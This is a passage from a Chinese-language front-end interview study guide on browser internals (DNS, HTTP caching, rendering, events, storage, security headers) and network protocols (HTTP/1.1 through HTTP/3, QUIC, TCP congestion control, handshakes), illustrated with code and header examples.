| **Step 2** | 检查 HSTS 预加载列表：若命中从 HTTP 升级到 HTTPS |
| **Step 3** | DNS 解析：浏览器缓存 -> 系统缓存 -> hosts -> 递归查询 |
| **Step 4** | 建立 TCP 连接（三次握手），HTTPS 还要 TLS 握手 |
| **Step 5** | 发送 HTTP 请求（GET /index.html HTTP/1.1） |
| **Step 6** | 服务器处理请求，返回 HTTP 响应 |
| **Step 7** | 检查缓存（强缓存/协商缓存） |
| **Step 8** | 准备渲染进程：根据 Site Isolation 规则分配/复用渲染进程 |
| **Step 9** | 渲染进程主线程工作：解析 HTML -> DOM Tree、解析 CSS -> CSSOM、生成 Render Tree、Layout、Paint、Composite |
| **Step 10** | 显示页面内容（First Contentful Paint / FCP） |
| **Step 11** | 执行 JavaScript：Web Worker 并行、requestAnimationFrame 调度、Intersection Observer 触发 |
| **Step 12** | 加载执行剩余资源：懒加载图片、Code Splitting 动态导入 |
| **Step 13** | 页面可交互（Time to Interactive / TTI） |
| **Step 14** | 后台标签静默期：预渲染（bfcache）、定期触发回流/重绘保持活性 |

---

### 5.6 DNS 解析全过程与 DNS 缓存

#### DNS 解析流程

**DNS 解析层级（按顺序查询）：**

| 层级 | 缓存位置 | 说明 |
|------|---------|------|
| 1 | 浏览器缓存 | Chrome: chrome://net-internals/#dns |
| 2 | 系统缓存 | Windows: ipconfig /displaydns, macOS: sudo dscacheutil -flushcache |
| 3 | 本地 DNS 解析器 | /etc/resolv.conf，通常是 ISP 或 114.114.114.114 |
| 4 | 根域名服务器 (.) | 全球 13 组根服务器 |
| 5 | 顶级域名服务器 (TLD) | .com .net .org 等的 TLD 服务器 |
| 6 | 权威域名服务器 | example.com 的 NS 记录 |

**查询结果：** A 记录 / AAAA 记录 -> IP 地址（如 93.184.216.34）

#### DNS 缓存层级

| 缓存位置 | 存活时间 | 优先级 |
|---------|---------|-------|
| 浏览器 DNS 缓存 | TTL 分钟数或数分钟 | 最高 |
| 操作系统 DNS 缓存 | TTL 分钟数 | 次高 |
| 本地 DNS 解析器缓存 | 可配置 | 视配置 |
| 递归 DNS 服务器（ISP） | 取决于 TTL | 中 |
| 权威 DNS 服务器 | 由域名所有者设定 | 来源 |

#### DNS 解析代码示例

```javascript
// 在 <head> 中声明预解析
const html = `
  <link rel="dns-prefetch" href="//cdn.example.com" />
  <link rel="preconnect" href="https://cdn.example.com"
        crossorigin="anonymous" />
`;

// 使用 fetch 触发 DNS（间接方式）
fetch('https://example.com/favicon.ico', { mode: 'no-cors' })
  .then(() => console.log('DNS 已解析'));

// DNS-over-HTTPS (DoH) 示例 — 防止 DNS 污染
const dnsQuery = async (domain) => {
  const response = await fetch(
    `https://cloudflare-dns.com/dns-query?name=${domain}&type=A`,
    { headers: { 'Accept': 'application/dns-json' } }
  );
  const data = await response.json();
  return data.Answer?.[0]?.data;
};
```

---

### 5.7 浏览器缓存机制：强缓存 vs 协商缓存

#### 完整缓存决策流程

**缓存判断流程：**

| 阶段 | 检查 | 结果 |
|------|------|------|
| 强缓存 | 检查 Cache-Control: max-age / Expires | 命中则直接使用缓存 (200 OK) |
| 协商缓存 | 检查 ETag / Last-Modified | 命中则使用缓存 |
| 条件请求 | 发送 If-None-Match / If-Modified-Since | 服务端确认后返回 304 或新资源 |

**决策树：**
1. HTTP 响应到达浏览器
2. 检查强缓存（Cache-Control / Expires）→ 命中直接返回 200 OK
3. 未命中则检查协商缓存（ETag / Last-Modified）
4. 发送条件请求 → 服务端确认 → 返回 304（使用缓存）或 200（新资源）

#### 强缓存详解

```http
# 优先级: Cache-Control > Expires（Expires 是 HTTP/1.0 遗留字段）
Cache-Control: max-age=3600           # 相对时间，3600秒后过期
Cache-Control: s-maxage=7200          # 代理服务器（CDN）缓存时间
Cache-Control: no-cache               # 每次使用前必须和服务器确认（走协商缓存）
Cache-Control: no-store               # 完全不缓存（包括磁盘）
Cache-Control: public                  # 可被任何节点缓存（浏览器、CDN、代理）
Cache-Control: private                # 只有浏览器能缓存，CDN/代理不能缓存
Cache-Control: must-revalidate        # 缓存过期后必须从源站验证
Cache-Control: immutable              # 响应内容永远不会变（对版本化资源很有用）
Expires: Mon, 01 Jan 2027 00:00:00 GMT  # 绝对时间（注意：依赖客户端时钟）
```

#### no-cache vs no-store 区别

```javascript
// no-cache: 等价于"使用前必须重新验证"
// 浏览器仍会缓存，但每次使用前发送条件请求到服务器确认
// 适用场景：敏感数据或需要确保最新的资源，但不想每次都下载完整内容
// 行为: Cache-Control: no-cache  ->  发送 If-None-Match 请求 -> 304/200

// no-store: 完全不缓存，任何地方都不存储
// 适用场景：包含敏感信息（密码、Token、PII）的响应
// 行为: 完全不缓存，每次都从服务器重新获取
// 安全: 金融网站、登录接口必须用 no-store
```

#### 协商缓存详解

```http
# 服务端响应头（告诉浏览器缓存的标识）
ETag: "abc123def456"        # 文件内容的哈希/版本标识（精确）
Last-Modified: Tue, 01 Jan 2026 12:00:00 GMT  # 文件最后修改时间（粗粒度）

# 浏览器后续请求头（带上缓存标识，询问服务器是否过期）
If-None-Match: "abc123def456"     # 对应 ETag
If-Modified-Since: Tue, 01 Jan 2026 12:00:00 GMT  # 对应 Last-Modified
```

#### ETag vs Last-Modified 对比

| 特性 | ETag | Last-Modified |
|------|------|--------------|
| 精度 | 精确（内容哈希） | 粗粒度（秒级） |
| 精度问题 | 小文件秒内修改可能丢失 | 无法区分秒内多次修改 |
| 性能 | 需计算哈希（CPU消耗） | 直接读文件时间（快速） |
| 分布式兼容 | 需确保多服务器 ETag 一致 | 天然一致（文件系统时间） |
| 推荐场景 | API 响应、频繁更新的动态内容 | 静态文件、大文件 |

#### 代码示例：强制缓存 + 协商缓存实践

```javascript
// 服务器端 Express 示例
const crypto = require('crypto');
const fs = require('fs');

app.get('/static/:filename', (req, res) => {
  const filePath = path.join(__dirname, 'public', req.params.filename);
  const stat = fs.statSync(filePath);
  const mtime = stat.mtime.toUTCString();
  const etag = `W/"${crypto.createHash('sha1').update(fs.readFileSync(filePath)).digest('base64')}"`;

  // 协商缓存
  if (req.headers['if-none-match'] === etag) {
    return res.status(304).end();
  }
  if (req.headers['if-modified-since'] === mtime) {
    return res.status(304).end();
  }

  // 强缓存: HTML 不缓存，其他资源长期缓存 + 版本化
  if (req.params.filename.endsWith('.html')) {
    res.setHeader('Cache-Control', 'no-cache, no-store, must-revalidate');
  } else {
    res.setHeader('Cache-Control', 'public, max-age=31536000, immutable');
  }

  res.setHeader('ETag', etag);
  res.setHeader('Last-Modified', mtime);
  res.sendFile(filePath);
});
```

---

### 5.8 浏览器渲染流程

#### 渲染流水线

| 阶段 | 说明 |
|------|------|
| HTML Parser | Tokenizer -> HTML Token 流 -> 构建 DOM 节点 -> DOM Tree |
| Style | 计算每个 DOM 节点的 Computed Style |
| Render Tree | DOM + CSSOM -> 可见节点（不包含 display:none） |
| Layout | 计算几何信息（x, y, width, height）—— 任何改变几何属性的操作都触发回流 |
| Paint | 生成绘制记录（Paint Records），确定绘制顺序（按 z-index 分层） |
| Composite | 合成层分组 -> 光栅化 -> 合成帧 |

#### CSS 选择器优先级

```javascript
// CSS 选择器优先级（从低到高）:
/*
  0. 通配符 *             -> 0,0,0,0
  1. 标签选择器 p          -> 0,0,0,1
  2. 类选择器 .active      -> 0,0,1,0
  3. 属性选择器 [type=text] -> 0,0,1,0
  4. 伪类 :hover           -> 0,0,1,0
  5. ID 选择器 #header     -> 0,1,0,0
  6. 行内样式 style=""     -> 1,0,0,0
  7. !important            -> 最高优先级（覆盖上述所有）
*/
```

#### DOM Tree 与 Render Tree 生成

**DOM Tree vs Render Tree：**

| DOM Tree | Render Tree | 说明 |
|---------|-------------|------|
| html > html | html | 根节点 |
| head > head | (跳过) | 不可见，不进入渲染树 |
| link > link | (跳过) | 不可见，不进入渲染树 |
| body > body | body | 可见节点 |
| div > div | div | 可见，附带样式信息 |
| 'text' > text | 'text' | 文本节点 |

**注意：**
- display:none 的元素节点从 DOM 中保留，但不出现在 Render Tree
- visibility:hidden 元素出现在 Render Tree 中，但不绘制

---

### 5.9 Layout vs Paint vs Composite

| 阶段 | 触发条件 | 性能影响 | 解决方式 |
|------|---------|---------|---------|
| **Reflow（回流/布局）** | 几何属性变化（width/height/padding/margin/offsetTop...） | 最严重，整个布局树重新计算 | 批量DOM操作、DOM离线化 |
| **Repaint（重绘）** | 外观变化不影响布局（color/background/border-radius...） | 中等，不需要重新布局 | 使用 CSS transform/opacity |
| **Composite（合成）** | 仅 transform/opacity 变化 | 最轻，仅合成层合并 | 启用 GPU 加速（will-change） |

#### 回流（Reflow）触发条件

```javascript
// 读写交替导致强制同步回流（最糟糕的性能陷阱）
// Bad Example - 强制同步布局抖动:
for (const el of manyElements) {
  el.style.width = el.offsetWidth + 10 + 'px';  // 读 -> 触发回流
  el.style.height = el.offsetHeight + 10 + 'px'; // 读 -> 再次触发回流
}
// 每次循环都触发同步回流（Layout Thrashing）

// Good Example - 批量读，批量写:
const widths = [];  // 先读所有
for (const el of manyElements) {
  widths.push(el.offsetWidth);
}
for (let i = 0; i < manyElements.length; i++) {  // 再写所有
  manyElements[i].style.width = widths[i] + 10 + 'px';
}

// 导致回流的常见操作:
window.getComputedStyle()     // 读
element.offsetHeight          // 读
element.scrollTop             // 读
element.getBoundingClientRect() // 读

// 不会导致回流的属性（合成线程完成）:
element.style.transform = 'translateX(100px)'  // 合成属性
element.style.opacity = '0.5'                   // 合成属性
```

#### 浏览器分层与合成层

```
页面分层（Layer Tree）:
+------------------------+
| Compositor Thread      |
+------------------------+
| Layer 1 (z-index: 3)   |  ← GPU 合成层，单独光栅化
|   - 固定头部导航         |     transform: translateZ(0)
|                         |     will-change: transform
+------------------------+
| Layer 2 (z-index: 2)   |  ← GPU 合成层
|   - modal 弹窗          |
+------------------------+
| Main Layer             |  ← 主线程管理的默认层
|   - 普通内容             |
+------------------------+
```

#### GPU 合成原理

```
1. 分层: 渲染引擎根据特定规则将页面分为多个合成层 (Compositing Layers)
   触发合成层的常见条件:
   - transform: translateZ(0) / translate3d()
   - will-change: transform / opacity
   - position: fixed
   - <video> / <canvas> / WebGL
   - CSS filter

2. 光栅化: 每个合成层在合成线程中独立光栅化（Rasterization）

3. 合成: 将各层的位图纹理按 z-index 叠加
   - 使用 GPU 的纹理合成能力（Texture Compositing）

4. 动画/滚动: transform 和 opacity 的动画完全在合成线程执行
   - 不需要主线程参与 -> 60fps+ 的流畅动画
```

---

### 5.10 CSS 阻塞渲染 vs JS 阻塞解析

#### CSS 阻塞渲染

```html
<!-- CSS 是渲染阻塞资源 (Render Blocking Resource) -->
<!-- 原因：避免无样式内容闪烁 (FOUC) -->

<head>
  <!-- 阻塞渲染：必须加载和处理完 CSS 才能渲染 -->
  <link rel="stylesheet" href="styles.css" />

  <!-- 非关键 CSS 应异步加载：-->
  <link rel="stylesheet" href="non-critical.css"
        media="print" onload="this.media='all'" />
</head>
```

#### JS 阻塞解析

```html
<body>
  <!-- JS 默认阻塞 HTML 解析器 -->
  <!-- 原因：JS 可能 document.write() 改变 DOM 结构 -->

  <!-- 普通脚本 — 阻塞解析 -->
  <script src="analytics.js"></script>

  <!-- defer 脚本 — 不阻塞解析 -->
  <script src="app.js" defer></script>

  <!-- async 脚本 — 不阻塞解析 -->
  <script src="analytics.js" async></script>

  <!-- 模块脚本 — 默认 defer 行为 -->
  <script type="module" src="app.js"></script>
</body>
```

#### defer vs async 对比

| 脚本类型 | 执行时机 | 执行顺序 | 是否阻塞 HTML 解析 |
|---------|---------|---------|-------------------|
| 无属性 | 解析时立即执行 | 出现顺序 | 是 |
| defer | DOM 完成后 | 出现顺序 | 否 |
| async | 下载完立即执行 | 不保证顺序 | 否 |

**时间轴示意：**

```
无属性: |-- HTML 解析 --[c.js 执行]-- c.js 下载 --|-- PAINT --|
defer:   |-- HTML 解析 -- c.js 下载 -------- [a.js 执行]--|-- PAINT --|
async:   |-- HTML 解析 -- b.js 下载 [b.js 执行]-----------|-- PAINT --|
```

| 特性 | 无属性 | defer | async |
|------|-------|-------|-------|
| 是否阻塞 HTML 解析 | 是 | 否 | 否 |
| 执行时机 | 解析时立即执行 | DOM完成后 | 下载完立即执行 |
| 执行顺序 | 出现顺序 | 出现顺序 | 不保证顺序 |
| 适用场景 | 依赖 DOM 的同步脚本 | 大部分场景（推荐） | 独立脚本（分析/广告） |

#### preload vs prefetch

```html
<!-- preload: 提前加载当前导航需要的资源（高优先级） -->
<link rel="preload" href="font.woff2" as="font" crossorigin="anonymous" />
<link rel="preload" href="critical.js" as="script" />

<!-- prefetch: 提前加载未来导航可能需要的资源（低优先级） -->
<link rel="prefetch" href="next-page.html" />
<link rel="prefetch" href="bundle.js" as="script" />

<!-- preconnect: 提前建立 TCP/TLS 连接 -->
<link rel="preconnect" href="https://api.example.com" />
```

---

### 5.11 浏览器事件机制

#### 冒泡 vs 捕获完整图解

```
事件流三个阶段:

捕获阶段 (Capture Phase) — 从根节点往下到目标节点
  window -> document -> <html> -> <body> -> <div>

目标阶段 (Target Phase) — 在目标节点上
  <div onclick="...">
  事件处理在目标元素上按添加顺序执行

冒泡阶段 (Bubble Phase) — 从目标节点往上到根节点
  <div> -> <body> -> <html> -> document -> window
```

```javascript
// 完整事件监听示例
const div = document.getElementById('outer');

// 捕获阶段处理（第三个参数为 true）
div.addEventListener('click', handler, true);

// 冒泡阶段处理（第三个参数为 false 或省略）
div.addEventListener('click', handler, false);

// 事件委托（利用冒泡）
document.getElementById('list').addEventListener('click', (e) => {
  const target = e.target.closest('li');
  if (target) {
    console.log('Clicked li:', target.textContent);
  }
  e.stopPropagation();
});

// passive 优化：提升滚动流畅度
window.addEventListener('scroll', handler, { passive: true });
```

#### 不会冒泡的事件

```javascript
const nonBubblingEvents = [
  'focus', 'blur', 'load', 'unload', 'error',
  'mouseenter', 'mouseleave',
  'scroll',  // 在 window/document 上使用 passive 优化
];
```

---

### 5.12 localStorage / sessionStorage / IndexedDB

| 特性 | localStorage | sessionStorage | IndexedDB |
|------|-------------|----------------|-----------|
| 容量 | ~5MB | ~5MB | ~50MB+（可请求更多） |
| 生命周期 | 永久（除非手动清除） | 标签页关闭时清除 | 永久（除非手动清除） |
| 作用域 | 同源（协议+域名+端口） | 同源 + 同标签页 | 同源 |
| 线程 | 主线程同步访问 | 主线程同步访问 | 异步 API |
| 数据类型 | 仅字符串 | 仅字符串 | 支持 Blob/File/结构化对象 |
| 支持索引 | 否 | 否 | 是 |

```javascript
// localStorage 示例
localStorage.setItem('user', JSON.stringify({ name: 'Alice', age: 30 }));
const user = JSON.parse(localStorage.getItem('user'));

// 监听变化（其他同源标签页会收到通知）
window.addEventListener('storage', (e) => {
  console.log(`Key: ${e.key}, Old: ${e.oldValue}, New: ${e.newValue}`);
});

// IndexedDB 示例
const request = indexedDB.open('MyDatabase', 1);

request.onsuccess = () => {
  const db = request.result;
  const tx = db.transaction('users', 'readwrite');
  const store = tx.objectStore('users');
  store.put({ id: 'alice', name: 'Alice', age: 30 });
};
```

---

### 5.13 浏览器跨 Tab 通信

**通信方式对比：**

| 方式 | 说明 |
|------|------|
| BroadcastChannel | 现代推荐，同源跨 Tab 通信 |
| localStorage + storage 事件 | 监听 storage 事件实现跨 Tab 通信 |
| SharedWorker | 在 Worker 中管理连接状态 |
| postMessage | 需要引用对方 window 对象 |

#### BroadcastChannel（现代，推荐）

```javascript
// Tab A
const channel = new BroadcastChannel('my-channel');
channel.postMessage({ type: 'UPDATE', data: { user: 'Alice' } });

// Tab B
const channel = new BroadcastChannel('my-channel');
channel.onmessage = (e) => console.log('Received:', e.data);
```

#### SharedWorker

```javascript
// shared-worker.js
const connections = new Set();
self.onconnect = (e) => {
  const port = e.ports[0];
  connections.add(port);
  port.onmessage = (e) => {
    connections.forEach(p => {
      if (p !== port) p.postMessage(e.data);
    });
  };
  port.start();
};

// 使用
const worker = new SharedWorker('shared-worker.js');
worker.port.onmessage = (e) => console.log('From other tab:', e.data);
```

#### localStorage + storage 事件

```javascript
// Tab A 写入，Tab B 监听变化
localStorage.setItem('syncData', JSON.stringify({ counter: 42 }));

// Tab B 监听
window.addEventListener('storage', (e) => {
  console.log(e.key, e.oldValue, e.newValue);
});
```

---

### 5.14 Cookie：大小限制与跨域限制

```javascript
// Cookie 大小限制
// - 每个 cookie 最大 4KB（RFC 6265 规范）
// - 单个域名下所有 cookie 总数通常限制在 150-180 个

// 设置 Cookie（服务器端 Set-Cookie）
Set-Cookie: sessionId=abc123; Path=/; HttpOnly; Secure; SameSite=Strict; Max-Age=3600

// HttpOnly: JS 无法读取（防 XSS）
// Secure: 仅 HTTPS 传输
// SameSite: 防 CSRF 攻击
//   - Strict: 完全禁止跨站 cookie（最安全）
//   - Lax: 允许导航 GET 请求携带 cookie（默认）
//   - None: 允许跨站 cookie（必须配合 Secure）
```

---

### 5.15 同源策略、CSP、iframe sandbox

#### 同源策略（Same-Origin Policy）

```
同源定义: 协议 + 域名 + 端口 三者完全相同

示例:
https://example.com:443 (基准)
  ✅ https://example.com:443 (同源)
  ✅ https://example.com/ (同源)
  ❌ http://example.com:443 (协议不同)
  ❌ https://sub.example.com:443 (子域名不同)
  ❌ https://example.com:8080 (端口不同)
```

#### CSP（Content Security Policy）

```http
# 服务器响应头设置 CSP
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-abc123';
  style-src 'self' https://fonts.googleapis.com;
  img-src 'self' data: https:;
  frame-ancestors 'none';
  report-uri /csp-violation;
```

#### iframe sandbox

```html
<iframe
  src="https://untrusted.example.com/page.html"
  sandbox="
    allow-scripts
    allow-forms
    allow-same-origin
    allow-top-navigation
    allow-popups
  "
></iframe>

<!-- 最严格的 sandbox（完全不信任的内容） -->
<iframe src="untrusted.html" sandbox></iframe>
```

---

### 5.16 浏览器内存泄漏排查

#### 常见内存泄漏场景

```javascript
// 场景1: 全局变量（隐式全局变量）
function leak() {
  temp = 'this creates a global variable';  // 未声明的变量挂在 window 上
}

// 场景2: 定时器未清理
const intervalId = setInterval(() => console.log(heavyData), 1000);
clearInterval(intervalId);

// 场景3: 事件监听器未移除
element.addEventListener('click', handler);
element.removeEventListener('click', handler);

// 场景4: 闭包引用
function createLeak() {
  const largeArray = new Array(100000).fill('x');
  return () => console.log(largeArray.length);
}

// 场景5: 分离的 DOM 引用
const detachedNodes = [];
const div = document.createElement('div');
document.body.appendChild(div);
document.body.removeChild(div);
detachedNodes.push(div);  // 内存泄漏
```

#### Performance API 使用

```javascript
// 1. 获取内存信息（Chrome 浏览器）
const memoryInfo = performance.memory;
console.log({
  usedJSHeapSize: memoryInfo.usedJSHeapSize / 1024 / 1024,
  totalJSHeapSize: memoryInfo.totalJSHeapSize / 1024 / 1024,
});

// 2. Performance Observer — 监控长任务
const observer = new PerformanceObserver((list) => {
  for (const entry of list.getEntries()) {
    if (entry.duration > 50) {
      console.log('Long Task detected:', entry.duration, 'ms');
    }
  }
});
observer.observe({ entryTypes: ['longtask'] });

// 3. 监控 FP / FCP / LCP
const paintObserver = new PerformanceObserver((list) => {
  list.getEntries().forEach((entry) => {
    console.log(entry.name, entry.startTime.toFixed(2), 'ms');
  });
});
paintObserver.observe({ entryTypes: ['paint', 'largest-contentful-paint'] });

// 4. Timeline 分析
performance.mark('start-operation');
performance.mark('end-operation');
performance.measure('Duration', 'start-operation', 'end-operation');
```

#### Lighthouse 原理

**Lighthouse 工作流程：**

| 步骤 | 说明 |
|------|------|
| 1. 启动 | 通过 Chrome DevTools Protocol (CDP) 启动 |
| 2. 加载页面 | 通过 CDP 导航到目标 URL |
| 3. 全局检查 | Service Worker 检查、Computed CSS 收集、DOM 树信息收集 |
| 4. 运行 Auditors | 性能测试、PWA、最佳实践、SEO 等审计项 |
| 5. 生成报告 | 计算加权总分（0-100），输出优化建议，支持 HTML/JSON/CSV 格式 |
| 6. Lighthouse CI | 可集成到 CI/CD，阻止性能退化 |

**Auditors 审计项：**
- Performance: FCP / LCP / TBT / TTI / Speed Index
- PWA: service worker / manifest / offline
- Best Practices: deprecated APIs / console errors / HTTPS
- Accessibility: image aspect / color contrast

---

### 5.17 浏览器性能优化

#### 渲染性能优化

```javascript
// 1. 减少回流/重绘
// Bad
element.style.width = element.offsetWidth + 10 + 'px';
// Good: 使用 transform（合成线程，不触发回流）
element.style.transform = `translateX(${element.offsetWidth + 10}px)`;

// 2. will-change 优化动画性能
.animated-element {
  will-change: transform;
  transform: translateZ(0);
}

// 3. 批量 DOM 操作
const fragment = document.createDocumentFragment();
for (let i = 0; i < 1000; i++) {
  fragment.appendChild(document.createElement('li'));
}
list.appendChild(fragment);

// 4. DOM 离线化
const hidden = document.createElement('div');
hidden.style.display = 'none';
document.body.appendChild(hidden);
// 在 hidden 中大量操作 DOM ...
document.body.removeChild(hidden);
```

#### 资源调度优化

```
Preload Scanner 原理:

HTML 解析器在解析 HTML 时会暂停以执行 JS（JS 阻塞解析）
但 Preload Scanner 是一个轻量级后台扫描器（后台运行），
即使主线程被 JS 阻塞，它也能发现 <link>//<script> 等资源，
提前发起网络请求，充分利用网络带宽。

Code Splitting 实践:
import('module.js').then(module => module.doSomething());

// React.lazy 实现路由级代码分割
const Dashboard = React.lazy(() => import('./Dashboard'));
<Suspense fallback={<Loading />}>
  <Dashboard />
</Suspense>
```

---

## Chapter 6: 网络协议超完整题库

### 6.1 HTTP/1.0 vs HTTP/1.1 vs HTTP/2 vs HTTP/3

#### 版本演进全景

| 版本 | 年份 | 关键特性 |
|------|------|---------|
| HTTP/0.9 | 1991 | 单行协议，只支持 GET，无 header |
| HTTP/1.0 | 1996 | 引入请求头/响应头、MIME 类型 |
| HTTP/1.1 | 1997 | 引入 keep-alive、管道化、缓存控制 |
| HTTP/2 | 2015 | 二进制分帧、多路复用、HPACK 压缩 |
| HTTP/3 | 2022 | QUIC (UDP) 替代 TCP，消除 TCP 队头阻塞 |

#### HTTP/1.1 的队头阻塞

**问题：** HTTP/1.1 管道化仍受队头阻塞影响。

**场景示例：**

```
客户端                          服务器
GET /a.html    →              (a 处理慢)
GET /b.html    →              (b 已完成，等待)
GET /c.html    →              (c 已完成，等待)
                               队首响应慢，b/c 被卡

< Response: a.html  (即使 b/c 已准备好)
< Response: b.html
```

**现代浏览器解决方案：** 多个 TCP 连接（通常 6 个）

#### HTTP/2 多路复用

**HTTP/2 帧结构：**

```
+---------------+---------------+-------+
| Length (3B) | Type (1B) | Flags (1B) |
+---------------+---------------+-------+
| Stream Identifier (4B)              |
+---------------------------------------+
| Frame Payload (...)                 |
+---------------------------------------+
```

**HTTP/2 帧类型：**

| 帧类型 | 说明 |
|--------|------|
| DATA | 传输实际数据（请求体/响应体） |
| HEADERS | 传输首部 |
| SETTINGS | 连接级配置 |
| WINDOW_UPDATE | 流控 |
| PING | 心跳检测 |

**多路复用示例：**

| Stream ID | 内容 |
|-----------|------|
| Stream 1 | HEADERS (stream=1) + DATA (stream=1) -> GET /index.html |
| Stream 3 | HEADERS (stream=3) + DATA (stream=3) -> GET /style.css |
| Stream 5 | HEADERS (stream=5) + DATA (stream=5) -> GET /app.js |

**优势：** 帧在同一个 TCP 连接上交织返回，完全并行，无队头阻塞

#### HTTP/2 仍有队头阻塞的原因

```
问题: HTTP/2 在 TCP 层仍有队头阻塞

原因: TCP 保证字节序（字节流），丢包会导致重传

       Stream 1: [A][B][C][D][E][F][G][H]...
       Stream 3: [a][b][c][d][e][f][g][h]...

       帧序列在 TCP 流中:
       [A][a][B][b][C][c][D][d]...
                  ↑
              Stream 3 的 [c] 丢失
              TCP 层重传 [c]

       Stream 1 的 [D] 虽然到达，但 TCP 层必须等 [c] 收到后才能交付
       → HTTP/2 的所有流都被阻塞（即使这些流的数据都完好）

HTTP/3 的解决: QUIC 替代 TCP，每个流独立流控，丢包只影响该流
```

#### HPACK 头部压缩原理

```
HPACK 使用两个表压缩:

1. 静态表 (Static Table): 已知常见的 Header Field
   Index 1: :authority
   Index 2: :method GET
   Index 4: :path /
   ...
   Index 33: content-type: text/plain
   ...

2. 动态表 (Dynamic Table): 动态维护当前连接中出现过的 Header

3. Huffman 编码: 对字符串值进行 Huffman 编码

结果: 重复 Header 只传输 index（1-2 bytes），节省约 60-90% Header 开销
```

#### HTTP/3 与 QUIC

```
HTTP/3 协议栈:
+-----------------------------+
|         HTTP/3              |  应用层
+-----------------------------+
|          QUIC               |  (可靠的 UDP)
|  +-----------------------+  |
|  |  Stream 1             |  |  每个流独立
|  |  Stream 2             |  |  流控，无队头阻塞
|  |  Stream 3             |  |
|  +-----------------------+  |
|  |  Connection ID        |  |  连接迁移
|  |  0-RTT / 1-RTT 握手   |  |
|  +-----------------------+  |
+-----------------------------+
|          UDP                |  传输层
+-----------------------------+
```

---

### 6.2 HTTP 为什么无状态，keep-alive 原理

#### 无状态设计

```http
HTTP 无状态 = 服务器不保存任何客户端请求的历史信息

为什么无状态？
1. 可扩展性: 服务器可以任意水平扩展（无状态 = 任何服务器处理任何请求）
2. 简单性: 服务器逻辑简单，不需要维护会话状态
3. 可靠性: 服务器崩溃不丢失状态（状态在客户端）

有状态 = 在应用层实现（Cookie/Token/自定义 Header）
```

#### keep-alive（持久连接）

```http
HTTP/1.0 时代: 每个请求都建立新的 TCP 连接，用完即关闭

HTTP/1.1 时代: 默认开启 keep-alive，多个请求复用同一 TCP 连接
+--TCP连接--><--请求1--><--响应1--><--请求2--><--响应2--><--请求3--><--响应3--><--关闭-->

请求头:
Connection: keep-alive  (HTTP/1.0 需要，HTTP/1.1 默认)
Keep-Alive: timeout=5, max=1000
```

---

### 6.3 QUIC 为什么基于 UDP，QUIC 如何保证可靠性

#### 为什么选择 UDP

```
重新设计传输层协议的现实障碍:
1. 需要操作系统内核支持（更新内核协议栈 = 不可能）
2. 需要网络中间设备（路由器、防火墙）支持
3. UDP 已有广泛部署，无上述问题

QUIC = 在用户态实现可靠传输（绕过内核限制，快速迭代）
```

#### QUIC 可靠性实现

```
QUIC 丢包恢复机制:

1. 丢包检测:
   - 超时检测: 包发出后一段时间未收到 ACK，超时重传
   - Duplicate ACK: 收到 3 个 ACK（同一 seq 未 ACK）

2. ACK Ranges（选择性确认）:
   QUIC ACK 帧携带"接收到的包范围"，比 TCP 的 SACK 更精确

3. 连接迁移（Connection Migration）:
   - 每个连接有一个 Connection ID（可变）
   - 客户端切换网络（WiFi->4G）时，继续使用同一 Connection ID
   - 数据包到达新 IP，QUIC 层自动更新连接路径
   - 无需重新建立连接（TCP 会断开重连）
```

---

### 6.4 TCP vs UDP vs QUIC

| 特性 | TCP | UDP | QUIC |
|------|-----|-----|------|
| 连接性 | 面向连接 | 无连接 | 面向连接（逻辑） |
| 可靠性 | 可靠传输 | 不可靠 | 可靠传输 |
| 顺序性 | 保序 | 不保序 | 保序（流内） |
| 拥塞控制 | 有 | 无 | 有 |
| 头部大小 | 20B | 8B | 20-40B (可变) |
| 队头阻塞 | 有（传输层） | 无 | 无（流内） |
| 连接迁移 | 不支持 | 不支持 | 支持 |
| 握手延迟 | 1-RTT | 0-RTT | 1-RTT / 0-RTT |

---

### 6.5 TCP 拥塞控制、滑动窗口、流量控制

#### TCP 滑动窗口

**发送方滑动窗口结构（以字节为单位）：**

| 区域 | 说明 |
|------|------|
| 已发送并 ACK | 数据已发送且已收到确认 |
| 已发送未 ACK | 数据已发送但未收到确认 |
| 可发送区域 | 可以发送的新数据 |
| 不能发送 | 超过窗口大小的数据 |

```
[SENT & ACKED] | [SENT NOT ACK] | [NOT SENT] | [CANNOT SEND]
     SND.UNA      SND.NND        SND.UNA+SND.WND
```

**流量控制 vs 拥塞控制：**
- 流量控制：防止发送方超过接收方的处理能力（工具：rwnd）
- 拥塞控制：防止发送方超过网络的承载能力（工具：cwnd）
- 发送窗口 = min(rwnd, cwnd)

#### 拥塞控制四算法

```
1. 慢启动 (Slow Start):
   - cwnd 初始值 = 1 MSS
   - 每收到一个 ACK，cwnd += 1 MSS
   - 指数增长，直到达到 ssthresh

2. 拥塞避免 (Congestion Avoidance):
   - 每收到一个 ACK，cwnd += MSS²/cwnd
   - 线性增长（每 RTT 增加 1 MSS）

3. 快速重传 (Fast Retransmit):
   - 收到 3 个 Duplicate ACK（同一 seq 未 ACK）
   - 不等超时，立即重传丢失的包

4. 快速恢复 (Fast Recovery):
   - cwnd = ssthresh + 3*MSS
   - 收到新 ACK 后进入拥塞避免
```

---

### 6.6 SYN Flood 与防御

```
SYN Flood 攻击原理:

攻击者发送大量 SYN 包，但不完成三次握手
服务器维护大量半开连接 (SYN_RECV)，消耗资源

防御机制:
1. SYN Cookies:
   - 服务器不保存半开连接
   - 用加密 Cookie (seq = hash(...))
   - 完成第三次握手时验证 Cookie 才建立连接

2. SYN Cache:
   - 压缩半开连接信息（不保存完整 TCB）

3. 限流:
   - 限制来自单个 IP 的 SYN 速率

4. DDoS 防护服务:
   - Cloudflare, Akamai 等
```

---

### 6.7 三次握手 vs 四次挥手

#### 为什么是三次握手，不是两次

**两次握手的问题：**
- 无法防止历史连接初始化混乱
- 无法同步初始序列号 (ISN)

**三次握手完整过程：**

| 步骤 | Client | Server |
|------|--------|--------|
| 1 | SYN (seq=x) → | 请求连接，发送 ISN=x |
| 2 | | ← SYN+ACK (seq=y, ack=x+1) |
| 3 | ACK (seq=x+1, ack=y+1) → | |

**结果：** 握手完成，双方确认对方 ISN

#### 为什么是四次挥手

**原因：** TCP 是全双工通信，每个方向需要单独关闭。

**挥手详细过程：**

| 步骤 | Client | Server | 说明 |
|------|--------|--------|------|
| 1 | FIN → | | Client 发送完数据，请求关闭 |
| 2 | | ← ACK | Server 确认收到 FIN |
| 3 | | | (Client 进入 FIN_WAIT_2) |
| 4 | | | 此时：Client → Server 方向已关闭 |
| 5 | | | Server → Client 方向仍开放 |
